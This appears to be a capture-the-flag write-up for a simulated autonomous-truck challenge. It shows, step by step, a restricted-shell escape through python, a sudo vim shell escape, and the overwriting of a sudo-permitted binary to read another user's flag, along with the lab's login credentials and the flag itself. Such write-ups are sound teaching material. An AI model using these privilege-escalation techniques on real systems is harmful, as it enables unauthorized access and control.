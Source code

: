 # Alone Muks

## Contexte 

> Lors de votre récent séjour à Evil Country, vous êtes parvenu à brancher un dispositif sur le camion effectuant la livraison. Il faut maintenant trouver une faille sur le système pour pouvoir prendre le contrôle du  camion autonome de la marque Lates et le rediriger vers un point  d'extraction. Un agent a posé un dispositif nous permettant d'accéder au système de divertissement du véhicule. A partir de ce dernier, remontez jusqu'au système de navigation.
>  Connectez-vous en SSH au camion

We have to pwn the truck using SSH to redirect the autonomous drive wherever we want. ( actually we only have to get a flag )

```shell
username : user
password : user
adress : challengecybersec.fr
port : 5004
```

## Breaking inside the server

When we log on the server we are prompted to another land page where we have to log-in again. But exiting the software using `^C` (CTRL + C) leaded us on a restricted bash (rbash). We were really limited in commands and permissions.

We found an executable path to python environement then we elevated ourselves permissions importing bash using python :

`python -c "import os; os.system('/bin/bash')"` 

Then we wandered on the server, looking if we could add some executables to our path, and we found the most basic ones. 
We found what we need in `/bin`, `/usr/bin`, `/sbin`

The export command to ease our navigation : 
`export PATH=$PATH:/bin:/usr/bin:/sbin`

When we digged deeper in the /usr/bin files we found out there was a file named `update`, owned by globalSystem, in the group globalSystem, so we had to find a way to become global system. 

```sh
-rwxr-xr-x 1 globalSystem globalSystem   43744 Nov 15 16:28  update
```



We also searched the `/home` paths and we listed 3 home directories :

- `/user/`
- `/globalSystem/`
- `/navigationSystem/` 

The `navigationSystem home contain the flag we need to complete the challenge.

So the actual objective is trying to understand what is the `update` executable we found. But we don't have any permissions to read it.

Speaking of permissions, we had the idea of checking all the permissions we have on the user `user`

```shell
user@b43e27468d7b:/bin$ sudo -l
Matching Defaults entries for user on b43e27468d7b: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD
User user may run the following commands on b43e27468d7b:
(globalSystem) NOPASSWD: /usr/bin/vim 
```

so we could execute vim on globalSystem using `vim`

```shell
sudo -u globalSystem vim
```

then we launch a shell using vim :

`:!bash`

We tried to execute the `update` file, and it asked for a password. The password were found in the file when we opened it : `AloneIsTheBest`. The program were on infinite loop, we had to check for another way.

We did another `sudo -l` command.

Output : 

```shell
globalSystem@b43e27468d7b:/bin$ sudo -l
Matching Defaults entries for globalSystem on b43e27468d7b:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD             
User globalSystem may run the following commands on b43e27468d7b:                                                                         (navigationSystem) NOPASSWD: /usr/bin/update
```

And then we own the update file we got the idea by replacing the whole program content. 

```shell
echo "cat /home/navigationSystem/flag.txt" > update
```

```shell
sudo -u navigationSystem update
```

the flag were in the output :

`DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}`